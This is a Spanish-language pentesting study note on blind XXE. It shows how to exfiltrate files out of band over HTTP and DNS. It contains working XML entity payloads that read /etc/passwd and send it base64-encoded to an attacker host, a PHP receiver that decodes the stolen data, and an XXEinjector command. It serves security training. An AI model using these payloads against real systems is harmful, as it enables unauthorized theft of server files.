

---
tags:
  - Web/Red-Team
  - Pentesting/Explotacion
  - XXE
Descripción: "El caso más duro: la app no refleja ninguna entidad ni muestra errores"
Fecha de actualización: 2026-07-15
Nota previa: "[[17 - Divulgación avanzada de archivos]]"
Nota siguiente: "[[19 - Detección, evasión y prevención de XXE]]"
Area: "[[Web Attacks.base|Web Attacks]]"
---
---

El caso más duro: la app **no refleja** ninguna entidad **ni** muestra errores. Estamos completamente a ciegas. La solución es <mark style="background: #ADCCFFA6;">Out-of-band (OOB) Data Exfiltration</mark>: hacer que el servidor nos **envíe** el contenido del fichero a nuestra máquina por un canal lateral. La misma idea que en [[09 - Exfiltración Out-of-Band por DNS|SQLi ciega OOB]], [[00 - Introducción a Command Injection|command injection ciega]] o [[04 - Descubrimiento de XSS|blind XSS]].

# El mecanismo OOB

La diferencia con el [[17 - Divulgación avanzada de archivos|error-based]]: en vez de imprimir el fichero en una salida/error, hacemos que el back-end lance una **petición HTTP a nuestro servidor** con el fichero como parámetro. Usamos una parameter entity para leer el fichero (en `base64` con `php://filter`, para no romper la URL) y otra que construye la petición:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

Si el fichero fuera `XXE_SAMPLE_DATA`, `%file` contendría su base64 (`WFhFX1NBTVBMRV9EQVRB`) y el servidor pediría `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Nosotros capturamos y decodificamos.



# Montaje

Un receptor PHP que decodifica automáticamente lo que llega:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Lo servimos y lanzamos el payload contra la víctima (nótese que solo necesitamos la referencia externa; `&content;` en `<root>` dispara el envío):

```shell-session
$ php -S 0.0.0.0:8000
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

En nuestra terminal aparece la petición entrante con el `/etc/passwd` ya decodificado. <mark style="background: #8000E1A6;">Hemos exfiltrado un fichero sin ver **nada** en la respuesta de la app</mark>.

> [!tip]+ Exfiltración por DNS
> Si el `HTTP` saliente está filtrado pero el `DNS` no (muy común), coloca los datos como **subdominio**: `DATOS.our.website.com`, y captura con `tcpdump`/un DNS autoritativo propio. Codifica en **`base32`, no en `base64`**: el alfabeto base64 (`+ / =`) no es válido en una etiqueta DNS y el DNS es *case-insensitive* (destruiría la distinción mayús/minús de base64); base32 (`A-Z2-7`) sí sobrevive. En bug bounty, **Burp Collaborator** o **interactsh** automatizan este canal OOB (HTTP + DNS) sin montar infraestructura — ver [[20 - Herramientas para XXE|Herramientas]]. En bug bounty, **Burp Collaborator** o **interactsh** automatizan este canal OOB (HTTP + DNS) sin montar infraestructura — ver [[20 - Herramientas para XXE|Herramientas]].

> [!warning]+ Límite del canal DNS
> El DNS tiene un tope de longitud por etiqueta (63 chars) y por nombre (253). Para ficheros grandes hay que **fragmentar** el base64 en varias consultas. Por eso, si el HTTP saliente funciona, es el canal preferido; el DNS es el plan B cuando todo lo demás está bloqueado.

# Automatización: XXEinjector

Montar el DTD, el receptor y trocear la salida a mano es tedioso. **XXEinjector** (Ruby) automatiza todos los métodos vistos (básico, CDATA, error-based, OOB ciego). Guardas la petición de Burp en un fichero con el marcador `XXEINJECT` y lo lanzas:

```shell-session
$ ruby XXEinjector.rb --host=OUR_IP --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

Los ficheros exfiltrados quedan en `Logs/`. Lo detallamos junto al resto del arsenal en [[20 - Herramientas para XXE|Herramientas para XXE]].

Cerramos XXE con la [[19 - Detección, evasión y prevención de XXE|detección, evasión y prevención]].

## Referencias

- PortSwigger — [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind)
- XXEinjector — [enjoiz/XXEinjector](https://github.com/enjoiz/XXEinjector)
- PayloadsAllTheThings — [XXE OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
- HTB Academy — *Web Attacks* (base, 2021)
